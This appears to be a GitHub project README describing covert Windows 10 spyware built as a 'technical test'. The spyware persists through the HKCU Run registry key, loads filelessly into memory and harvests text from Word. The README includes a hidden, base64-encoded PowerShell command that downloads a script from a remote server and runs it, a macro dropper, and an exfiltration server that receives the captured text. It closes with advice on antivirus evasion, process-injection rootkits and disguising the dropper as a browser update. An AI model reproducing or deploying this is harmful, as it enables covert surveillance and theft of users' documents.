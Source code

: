 # Technical Test

Write code for Windows 10 that:

    - Is persistent (survives reboots).
    - It is as file-less as possible (should leave a minimal amount of code on disk, for as little time as possible).
    - Requires as little privileges as possible.
    - Searches for Word processes and extracts all text written (both for already open documents and for new Word instances).
    - Send the gathered data to a server.

## Solution

### Persistence

The persistence in the execution of this software is implemented by adding an entry in the registry path: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` which is executed each time the user log in.

This payload makes a GET request to the server to load the software into memory and executes it.

```
powershell.exe -NoProfile -Noninteractive -ExecutionPolicy Bypass -WindowStyle Hidden -enc aQBlAHgAIAAoAGkAdwByACAAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA1ADYALgAxADoAOAAwADgAMAAvAG0AYQBpAG4ALgBwAHMAMQAnACkA
```

![Persistence](./img/persistence.png)

### Fileless

The code developed is 100% fileless as it does not require to write nothing on disk. It is loaded into memory during the login process for a user and all the operations are performed into memory.

#### Dropper

A very basic example of a VisualBasic macro has been added just to simulate a possible first step into the attack vector. This macro executes powershell loading into memory the payload from the remote server and executes it.

### Little privileges as possible

### Searches for Word processes and extracts all text written

### Exfiltration http server

A simple python http server has been developed serving the payload for the fileless attack implementing GET method and receiving the exfiltration data through POST requests. The main code for the implementation comes from following link with the addition of other functionalities like serving files and creating files with decoded exfiltrated data.
<https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7>

During the first execution (infection) or when the computer is rebooted the payload is loaded from the server into memory executing it.

![Get Request](./img/get-request.png)

When the software fins that WinWord process starts, it send each 30 seconds the list of words to the server by a POST request encoding data y Base64. The server receives those data and created a file into disk with decoded data.

![Post Request](./img/post-request.png)

![Saved file into server](./img/server-file.png)

![Content of the file](./img/open-file.png)

#### Running the server

To execute the server it is only need to execute the following steps:

```
pip install -r requirements.txt
python3 webserver.py
```

### Possible Enhancements

It is necessary to mention here that there are a huge number of features that can be added for AV bypassing and make more difficult possible forensics tasks.

The software implements a basic bypass of possible DLP protections the exfiltrated data is encoded in Base64 before sending to the server. A better approach can be cyphering the payload with dynamic keys encryption gotten from the server.

The PowerShell code is not obfuscated in any way making easier the comprehension of the reader. A useful tool to do that is for example <https://github.com/danielbohannon/Invoke-Obfuscation>

If more advanced techniques are required, a better approach could be creating the  software as dll file and inject the code into a running process using the Reflective PE Injection. Furthermore, it could be possible to create a hook into Win32 API functions NtQuerySystemInformation acting as a Rootkit hiding processes from the Task Manager and NtCreateUserProcess to launch the exfiltration method when the process WinWord starts.

For increasing the possibilities of a first execution of the software, modern vulnerabilities like Microsoft MSHTML Remote Code Execution can be used. Also, other drop techniques could be useful like creating a WASM application and try to make the user to visit it and executes the code hiding like a browser update.
